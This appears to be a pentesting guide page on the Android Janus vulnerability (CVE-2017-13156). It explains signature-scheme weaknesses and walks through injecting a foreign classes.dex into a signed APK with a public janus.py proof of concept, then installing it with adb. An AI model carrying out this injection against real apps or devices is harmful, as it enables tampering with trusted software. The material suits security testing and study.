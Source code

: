 # Janus Vulnerability (CVE-2017-13156)

## Whats Janus Vulnerability

A serious vulnerability in Android allows attackers to inject a DEX file into an APK file without affecting the signatures.

## Details

1. &#x20;On device running android version 5.X & 6.X, Apk signature was verified using only v1 scheme Janus vulnerability was found in v1 signing scheme and google released a patch on 2017 December 01 to fix Janus on these android versions. so even though apk is signed only with v1 which can bem run on 5.x & 6.x, if 2017 December 01 patch is installed in the device Janus cannot be exploited.
2. After releasing the patch for Janus, Google released v2 signing scheme and prioritized device to use v2 scheme over v1 scheme if v2 was used along with v1 scheme but they did not integrate the patch into the system until android 8.1. This made possible to exploit Janus on android 7.x & 8.0 also, as long as 2017 December patch is not installed.
3. Applications signed with v2 or v3 along with v1 are also vulnerable to Janus if they are made to run on android versions 5.x & 6.x as it verifies only v1 scheme without installing the patch.
4. Finally v1 scheme was removed and V4 scheme has been introduced in Android 11, Applications that are only signed with v1 scheme will not run on Android 11

## How to Test

* [ ] &#x20;We use [apksigner](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#46c8) tool to find the signature schemes used by the application&#x20;

```bash
apksigner verify -verbose h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>apk  has been signed only with v1, no v2 or v3 signature</p></figcaption></figure>

* [ ] Use [apktool](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#37de) to find the min android version on which we can run this application&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Application can be run on API Level 15(Android 4.0.4 Ice Cream Sandwich), so we can choose any device from <strong>5.x, 6.x, 7.x &#x26; 8.0</strong> to exploit it.</p></figcaption></figure>

```bash
apktool -s d h5.apk && cat h5/apktool.yml | grep minSdk
```

* [ ] Get classes.dex from any other apk&#x20;

```bash
apktool -s d WhatsApp.apk && mv WhatsApp/classes.dex
```

* [ ] To Inject this classes.dex file into our h5 application, we use this exploit code from [**VEO**’s repo](https://raw.githubusercontent.com/V-E-O/PoC/master/CVE-2017-13156/janus.py). Copy the code and create new file named **janus.py** and paste into it

```bash
python janus.py classes.dex h5.apk kal-h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* [ ] &#x20;Install adb exploit

```
adb install h5.apk
adb install -r kal-h5.apk
```

## Automation

{% embed url="https://github.com/h0tak88r/j88nx" %}

```
# Basic APK analysis
go run main.go -apk path/to/your.apk

# Analysis with custom POC dex file
go run main.go -apk path/to/your.apk -dex path/to/poc.dex
```

## Resources

{% embed url="https://medium.com/mobis3c/exploiting-apps-vulnerable-to-janus-cve-2017-13156-8d52c983b4e0" %}
